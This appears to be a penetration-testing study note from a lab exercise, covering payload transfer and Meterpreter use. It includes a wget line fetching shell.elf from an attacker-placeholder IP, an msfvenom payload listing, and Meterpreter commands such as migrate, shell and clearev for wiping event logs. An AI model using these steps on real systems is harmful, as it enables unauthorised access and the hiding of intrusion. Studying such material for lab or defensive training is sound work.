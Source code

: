 
**transfer**
- ``` python3 -m http.server 9000 ```
- ``` wget http://ATTACKING_10.10.217.15:9000/shell.elf ```

## Meterpreter
-  runs in target memory and does not write itself to the disk on the target, avoid detecion
-  Meterpreter will be seen as a process and not have a file on the target system.

show different meterpreter version
- ``` # msfvenom --list payloads | grep meterpreter ```

How to choose version:
- The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
- Components available on the target system (Is Python installed? Is this a PHP website? etc.)
- Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.) 

**Meterpreter Commands**
- ``` help ```
**Core commands**
- background: Backgrounds the current session
- exit: Terminate the Meterpreter session
- guid: Get the session GUID (Globally Unique Identifier)
- help: Displays the help menu
- info: Displays information about a Post module
- irb: Opens an interactive Ruby shell on the current session
- load: Loads one or more Meterpreter extensions
- migrate: Allows you to migrate Meterpreter to another process
- run: Executes a Meterpreter script or Post module
- sessions: Quickly switch to another session

**File system commands**
- cd: Will change directory
- ls: Will list files in the current directory (dir will also work)
- pwd: Prints the current working directory
- edit: will allow you to edit a file
- cat: Will show the contents of a file to the screen
- rm: Will delete the specified file
- search: Will search for files
- upload: Will upload a file or directory
- download: Will download a file or directory

**Networking commands**
- arp: Displays the host ARP (Address Resolution Protocol) cache
- ifconfig: Displays network interfaces available on the target system
- netstat: Displays the network connections
- portfwd: Forwards a local port to a remote service
- route: Allows you to view and modify the routing table

**System commands**
- clearev: Clears the event logs
- execute: Executes a command
- getpid: Shows the current process identifier
- getuid: Shows the user that Meterpreter is running as
- kill: Terminates a process
- pkill: Terminates processes by name
- ps: Lists running processes
- reboot: Reboots the remote computer
- shell: Drops into a system command shell
- shutdown: Shuts down the remote computer
- sysinfo: Gets information about the remote system, such as OS
